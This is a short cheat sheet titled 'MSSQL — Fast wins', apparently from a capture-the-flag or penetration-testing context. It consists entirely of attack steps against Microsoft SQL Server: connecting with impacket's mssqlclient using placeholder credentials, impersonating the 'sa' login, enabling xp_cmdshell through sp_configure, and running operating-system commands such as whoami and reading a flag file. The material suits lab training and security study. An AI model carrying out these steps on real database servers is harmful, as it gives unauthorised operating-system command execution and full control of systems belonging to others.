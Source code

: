 # MSSQL — Fast wins

python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py '<USER>:<PASS>@<TARGET>'

EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;        RECONFIGURE;
EXEC xp_cmdshell 'whoami';
-- read example: EXEC xp_cmdshell 'type C:\\flag.txt';
